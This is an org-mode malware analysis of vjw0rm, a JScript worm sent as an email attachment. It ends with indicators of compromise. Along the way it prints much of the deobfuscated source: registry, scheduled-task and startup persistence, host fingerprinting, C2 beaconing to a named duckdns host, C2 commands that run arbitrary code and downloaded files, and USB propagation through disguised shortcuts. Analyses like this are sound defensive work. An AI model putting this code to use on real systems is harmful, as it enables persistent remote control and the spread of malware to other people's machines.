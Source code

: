 #+author: Arkeopix
#+email:  jerome.mendiela@protonmail.ch
#+title:  vjw0rm, an analysis
#+date:   <2018-01-18 Thu>

#+TOC: listing

* Intro
  vjw0rm might not be the sexiest malware out there, but it's still good enough to trick users into
  executing it. It offers a good example of malware behaviour and shows some techniques used by malware author
  to persists and propagate. This analysis will focus on what vjw0rm does, how and will briefly speculate as to
  why.

  vjw0rm (refered to as "the sample" for the rest of the document) is a malicious ZIP archive
  sent as an attachment in an email.

  When executed, the sample will try and persist, gather information about the conputer its being 
  ran on and enter a loop, making contact with the C2 server to get instructions.
  
  the sample is able to execute scripts and arbitraty javascript, self update and propapate itself 
  through USB devices.

  Sadly i lost the original email, but i remember having a good laugh because it was litteraly asking the user to 
  run the extracted file file as administrator, "for better performances". 

  #+name: sha256 hash
  #+begin_src sh
    $> sha256sum scan-743457657.zip                                          
    $> 3e1c170dae4154581f7f37e20fcdd85ae39f2a98c7a2b1fdb153a2dfa5bae486  scan-743457657.zip
  #+end_src

* Mechanisms
** Obfuscation
   The sample is really quite simple as the payload is url encoded.
   All we need to do is calling some kind of urldecode function and get the code itself.
   As for the code, it is obfuscated with a mix of global variables, references to indexes 
   in arrays, "getter" functions and almost meaningless names 
   (=sh= holds the WScript.Shell object, for example). 
   Nothing anyone familiar with reading code could not understand.
   
   I don't feel like this part needs some extra attention.
  
** Persitence
   Upon starting, the sample will try to read the registry key =HKCU\\vjw0rm=, the value will be either
   TRUE, FALSE or the key will not exist and an exception will be raised. The catch block will set the 
   key based on the position of the sample relative to the top of a directory.

   #+begin_src js
     try {
         // shell.RegRead('HKCU\\vjw0rm')
         // Reading registry key HKCU\\vjw0rm and storing it into isInTopDir. value is either TRUE or FALSE
         isInTopDir = shell.RegRead(RegistryEntries[2]);
     } catch(err) {
         var sv = ScriptFullName.split("\\");
         if (":\\" + sv[1] + "== :\\" + ScriptName) { // If script is in top dir (c:\, e:\, etc)
             isInTopDir = "TRUE";
             // Writing REG_SZ key HKCU\\vjw0rm with TRUE
             shell.RegWrite(RegistryEntries[2],isInTopDir,RegistryEntries[5]);
         } else {
             isInTopDir = "FALSE";
             // Writing REG_SZ key HKCU\\vjw0rm with FALSE
             shell.RegWrite(RegistryEntries[2],isInTopDir,RegistryEntries[5]);
         }
     }
   #+end_src
   
   Then the sample will call a function in order to persist, the deobfuscated code is as follow
   
   #+begin_src js
     function Persist() {
         // Creates a path in tmp for the script
         var PathToScriptInTMP = GetEnvironementVar("TEMP") + BackSlash + ScriptName;
         try {
             // copy file in tmp
             FileSystem.CopyFile(ScriptFullName,PathToScriptInTMP,true);
         } catch(err) {
         }
         try {
             // Writes registry REG_SZ HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\URCWXKQC01 to start the newly created script in tmp
             shell.RegWrite(RegistryEntries[0] + RegistryEntries[3] + "URCWXKQC01","\"" + PathToScriptInTMP + "\"",RegistryEntries[5]);
         } catch(err) {
         }
         try {
             // Create a scheduled task named skype to run the script every 30 minutes 
             shell.run("Schtasks /create /sc minute /mo 30 /tn Skype /tr \"" + PathToScriptInTMP,false);
         } catch(err) {
         }
         
         try {
             // Shell.Application
             var app = ReturnWindowsTool(2);
             // Write the script in startup folder. app.NameSpace(7).Self.Path returns path to startup folder
             FileSystem.CopyFile(ScriptFullName, app.NameSpace(7).Self.Path + "\\" + ScriptName,true);
         } catch(err) {
         }
     }
   #+end_src
   
   As you might see, the sample copies itself in the user temp folder, namely =C:\Users\${USER}\AppData\Local\Temp\${SCRIPT_NAME}=. Then
   it will try all of the following:
   1) Add itself to the Run key in HKLM, meaning that on success the script will be executed each time a user logs on.
      The new key under Run is =URCWXKQC01=
   2) Create a scheduled task called Skype that triggers an execution every 30 minutes
   3) Copy itself in the current user startup folder, i.e. =C:\Users\${USER}\AppData\Roaming\Microsoft\Windows\StartMenu\Programs\Startup\${SCRIPT_NAME}=
      
   As the exceptions are never handled, one could think they're here to hinder readability
** C2 communications
   One of the first thing the sample does is building a fingerprint of the computer it being ran on.
   The details are as follow: 
   #+begin_src js
     function FingerPrint() {
         var serial,NT,i;
         if (FileSystem.fileexists(GetEnvironementVar("Windir") + "\\Microsoft.NET\\Framework\\v2.0.50727\\vbc.exe")) {
             NT ="YES";
         } else {
             NT = "NO";
         }
         // windows_0AEFADF6\DESKTOP-V3RVKO3\test\Microsoft Windows 10 Enterprise Evaluation\Windows Defender\\NO\TRUE\
         serial = HDDSerial + BackSlash + GetEnvironementVar("COMPUTERNAME") + BackSlash + GetEnvironementVar("USERNAME") + BackSlash + GetInfo(2) + BackSlash + GetInfo(4) + BackSlash + BackSlash + NT + BackSlash + isInTopDir + BackSlash;
         return serial;
     }
   #+end_src
   
   This piece of code just concatenates different bits of information about the computer in order to create an identity for the computer, which might
   be used by the C2 server in order to identify and deliver different stages over time.
   The information is gathered through the [[https://msdn.microsoft.com/en-us/library/aa394525(v%3Dvs.85).aspx][winmgmts]] WMI service, running under the LocalSystem account.

   #+begin_src js
     function GetInfo(Action) {
         var s;
         // Get the os version
         if (Action == 2) {
             // GetObject('winmgmts:').InstancesOf('Win32_OperatingSystem');
             s = GetObject(WindowsMgmt[0]).InstancesOf(WindowsMgmt[2]);
             var en = new Enumerator(s);
             for (; !en.atEnd();en.moveNext()) {
                 var it = en.item();
                 return it.Caption;
                 break;
             }
         }
         // Enumerate Antivirus product and return the name of the AV
         if (Action == 4) {
             var wmg = "winmgmts:\\\\localhost\\root\\securitycenter";
             // GetObject(wmg).InstancesOf('AntiVirusProduct');
             s = GetObject(wmg).InstancesOf(WindowsMgmt[3]);
             var en = new Enumerator(s);
             for (; !en.atEnd();en.moveNext()) {
                 var it = en.item();
                 var str = it.DisplayName;
             }
             if (str !== '') {
                 // Look in winmgmts:\\\\localhost\\root\\securitycenter2
                 wmg = wmg + "2";
                 // GetObject(wmg).InstancesOf('AntiVirusProduct');
                 s = GetObject(wmg).InstancesOf(WindowsMgmt[3]);
                 en = new Enumerator(s);
                 for (; !en.atEnd();en.moveNext()) {
                     it = en.item();
                     return it.DisplayName;
                 }
             } else {
                 return it.DisplayName;
             }
         }
         // Get the serial number of the hdd
         if (Action==6) {
             // GetObject('winmgmts:').InstancesOf('win32_logicaldisk');
             s = GetObject(WindowsMgmt[0]).InstancesOf(WindowsMgmt[1]);
             var en = new Enumerator(s);
             for (; !en.atEnd();en.moveNext()) {
                 var it = en.item();
                 return it.volumeserialnumber;
                 break;
             }
         }
     }
   #+end_src
   The fingerprint consist of information on OS version, antivirus info and hdd serial
   
   Once the fingerprint is ok, the sample will try to contact the C2 server, with the information in the User-Agent.
   #+begin_src js
     function PostFingerPrint(ressource,body) {
         // x = ReturnWindowsTool('XMLHTTP');
         // curl -A 'windows_0AEFADF6\DESKTOP-V3RVKO3\test\Microsoft Windows 10 Enterprise Evaluation\Windows Defender\\NO\TRUE\' --data ''  http://postventa-vodafone2006.duckdns.org:1993/VreVre
         var X = ReturnWindowsTool(3);
         X.open('POST','http://postventa-vodafone2006.duckdns.org:1993/Vre' + ressource, false);
         X.SetRequestHeader("User-Agent:",FingerPrint());
         X.send(body);
         return X.responsetext;
     }
   #+end_src
   The response is then parsed and acted upon. The sample reponds to 7 commands from the C2.
   - Cl\\
     Self termination. Upon receiving this message the sample will terminate itself
     #+begin_src js
       if (Response[0] === "Cl") {
           WScript.Quit(1);
       }
     #+end_src
   - Sc\\
     Drop file and run it
     #+begin_src js
       if (Response[0] === "Sc") {
           var pathToDrop = GetEnvironementVar("temp") + "\\" + Response[2];
           var file = FileSystem.CreateTextFile(pathToDrop,true);
           file.Write(Response[1]);
           file.Close();
           shell.run(pathToDrop);
       }
     #+end_src
   - Ex\\
     Executes arbitrary javascript
     #+begin_src js
       if (Response[0] === "Ex") {
           eval(Response[1]);
       }
     #+end_src
   - Rn\\
     Modifies the HDDserial prefix, which is part of the fingerprint. As i was not able to analyse real traffic from the C2 server,
     i can speculate as to why this would be. My guess is that it might be used as a way to discriminate victims in order to deliver 
     different stages of the attack.
     #+begin_src js
       if (Response[0] === "Rn") {
           // Opens the script file for reading
           var scriptr = FileSystem.OpenTextFile(ScriptFullName,1); // ri
           var scriptContent = scriptr.ReadAll(); // fr
           scriptr.Close();
           HDDSerial = HDDSerial.split("_");
           scriptContent = scriptContent.replace(HDDSerial[0],Response[1]);
           // Opens the script for writing
           var scriptw = FileSystem.OpenTextFile(ScriptFullName,2,false); // wi
           scriptw.Write(scriptContent);
           scriptw.Close();
           shell.run("wscript.exe //B \"" + ScriptFullName + "\"");
           WScript.Quit(1);
       }
     #+end_src
   - Up\\
     This command seems to allow the sample to self update, or at least drop a new version of itself on disk. 
     As the function changes the "|U|" to "|V|", which is the delimiter used to parse responses from the C2, this looks like a reasonable guess.
     #+begin_src js
       if (Response[0] === "Up") {
           var pathTemp = GetEnvironementVar("temp") + "\\" + Response[2]; // s2
           var file = FileSystem.CreateTextFile(pathTemp,true); // ctf
           var content = Response[1]; // gu
           content = content.replace("|U|","|V|");
           file.Write(content);
           file.Close();
           // Executes the new script in batch mode, hides the window and focus previous window
           shell.run("wscript.exe //B \"" + pathTemp + "\"",6);
           WScript.Quit(1);
       }
     #+end_src
   - Un\
     This command seems to be another way to run arbitraty javascript. However, before running the JS some modifications
     are made on the string from the server. As one of the modification involves the registry key created under the Run key in HKLM,
     this seems to be tied to persistence in some way.
     #+begin_src js
       if (Response[0] === "Un") {
           var formatString = Response[1]; // s2
           var scriptPathTemp = GetEnvironementVar("Temp") + BackSlash + ScriptName;
           var regi = "URCWXKQC01";
           formatString = formatString.replace("%f",ScriptFullName).replace("%n",ScriptName).replace("%sfdr",scriptPathTemp).replace("%RgNe%",regi);
           eval(formatString);
           WScript.Quit(1);
       }
     #+end_src
   - RF\\
     This just downloads a file and run it
     #+begin_src js
       if (Response[0] === "RF") {
           var pathTemp = GetEnvironementVar("temp") + "\\" + Response[2]; //s2
           var file = FileSystem.CreateTextFile(s2,true); //fi
           file.Write(Response[1]);
           file.Close();
           shell.run(pathTemp);
       }
     #+end_src

** Propagation
   Everytime the sample tries to contact the C2, it also scan the instances of Win32_LogicalDisk
   in order to find a USB device and copy itself on it. The sample is copied with the =hidden= and =system= attributes,
   which means it is suposed to be invisible and cannot be deleted, depending on the rights associated with the execution.
   Then, the sample scans the content of the root directory of the usb device and will create an lnk file for each present 
   file and folder. those lnk files are trying to look like the initial files on the device, i.e. it will have the same name and icon.
   The lnk file will launch the hidden malware, then open the corresponding file or folder, trying to make the actin looks like 
   everything is ok.

   Creating lnk for folder:
   #+begin_src js
     for (;!enumFolders.atEnd();enumFolders.moveNext()) {
         var folder = enumFolders.item(); //gf
         folder.attributes=2+4;
         // Put scriptName in double quotes
         ScriptName = ScriptName.replace(" ", "\"" + " " + "\"");
         var folderName = folder.name; // n
         // Put FolderName in double quotes
         folderName = folderName.replace(" ", "\"" + " " + "\"");
         // Creates a shortcut on removable media with folderName
         var shortCut = shell.CreateShortCut(DrivePath + folder.name + ".lnk"); // sr
         // 7 means windows is minimized and activates the next top level windows
         shortCut.WindowStyle = 7;
         // Makes the shortcut open cmd.exe, then explorer to make it look like nothing fishy happened
         shortCut.TargetPath  = "cmd.exe";
         shortCut.Arguments = "/c start " + ScriptName + "&start explorer " + folderName + "&exit";
         var defaultFolderIconKey = "HKLM\\software\\classes\\folder\\defaulticon\\";
         var defaultFolderIconPath = shell.RegRead(defaultFolderIconKey); //fic
         // default WshShortcut.iconLocation is ",0" where 0 is an index
         var iconLocation = shortCut.IconLocation; //ci
         var sci = ",";
         if (iconLocation.indexOf(sci) !== -1) {
             shortCut.IconLocation = defaultFolderIconPath;
         } else {
             shortCut.IconLocation = folder.Path;
         }
         shortCut.Save();
     }
   #+end_src

   Creating lnk for files
   #+begin_src js
     var files = new Enumerator(FileSystem.GetFolder(DrivePath).Files);
     // Enumerates files on usb device
     for (;!files.atEnd();files.moveNext()) {
         var file = files.item(); // gfi
         var dot = ".";
         var lnk = "lnk";
         // If filename contains ".lnk"
         if (file.name.indexOf(dot) !== -1) {
             if (file.name.indexOf(lnk) !== -1) {
             } else {
                 // verifies that current file is not the actual script
                 if (file.name !== ScriptName) {
                     // sets hidden and system flags
                     file.attributes=2+4;
                     var fileName = file.name;
                     fileName = fileName.replace(" ", "\"" + " " + "\"");
                     ScriptName = ScriptName.replace(" ", "\"" + " " + "\"");
                     // Creates a shortcut on the usb drive for each file present. Same technique as with the directory
                     // Uses the same icon in order to hide from and confuse users.
                     var shortCut = shell.CreateShortCut(DrivePath + file.name + ".lnk"); //shr
                     shortCut.WindowStyle=7;
                     shortCut.TargetPath = "cmd.exe";
                     shortCut.Arguments = "/c start " + ScriptName + "&start " + fileName + "&exit";
                     var fileNameSplit = currentFile.name.split("."); // sgf
                     // reads the class default value which often contains ${extension}File
                     var defaultName = shell.RegRead("HKLM\\software\\classes\\" + "." + fileNameSplit[fileNameSplit.length -1] /* extension */ + "\\"); // fvi
                     // Get the defaulticon for the file type
                     var icon = shell.RegRead("HKLM\\software\\classes\\" + defaultName + "\\defaulticon" + "\\"); //fvi2
                     var iconLocation = shr.IconLocation; // ci
                     var sci = ",";
                     // default WshShortcut.iconLocation is ",0" where 0 is an index
                     if (iconLocation.indexOf(sci) !== -1) {
                         shortCut.IconLocation = icon;
                     } else {
                         shortCut.IconLocation = file.Path;
                     }
                     shortCut.Save();
                 }
             }
         }
     }
   #+end_src
* IOC
  When vjw0rm is launched, it will leave the following traces.
** Registry
  The sample creates the folowing registry keys:
  - HKCU\\vjw0rm: \\
    A REG_SZ indicating if the sample is in a root directory
  - HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\URCWXKQC01: \\
    A REG_SZ indicating that the program should be run on every user logon
** Scheduled task
   The sample creates a scheduled task named skype with the command
   =Schtasks /create /sc minute /mo 30 /tn Skype /tr C:\Users\${USER}\AppData\Local\Temp\scan_234724767987497437257751775751.js=
   
   here are the details of the scheduled task
   #+begin_src powershell
     PS C:\Users\test\Desktop> Get-ScheduledTask -TaskName "skype" | % { @{
     >> Name = $_.TaskName
     >> Path = $_.TaskPath
     >> Command = $_.Actions.Execute
     >> Triggers = $_.Triggers.Repetition.Interval
     >> }}

     Name                           Value
     ----                           -----
     Path                           \
     Command                        C:\Users\test\AppData\Local\Temp\scan_234724767987497437257751775751.js
     Name                           Skype
     Trigger                        PT30M
   #+end_src

** File Creation
   The sample will create a copy of itself in the user temps folder at =C:\Users\${USER}\AppData\Local\Temp\scan_234724767987497437257751775751.js=
   Other files might be created in response to some C2 command, but the absence of response from said C2 did not help.

** Network
   The sample will try to contact =postventa-vodafone2006.duckdns.org= on port 1993, the protocol is http

** Process
   The sample will execute the following programs:
   - schtasks /create /sc minute /mo 30 /tn Skype /tr "C:\Users\${USER}\AppData\Local\Temp\scan_234724767987497437257751775751.js"
   - wscript //B "scan_234724767987497437257751775751.js"
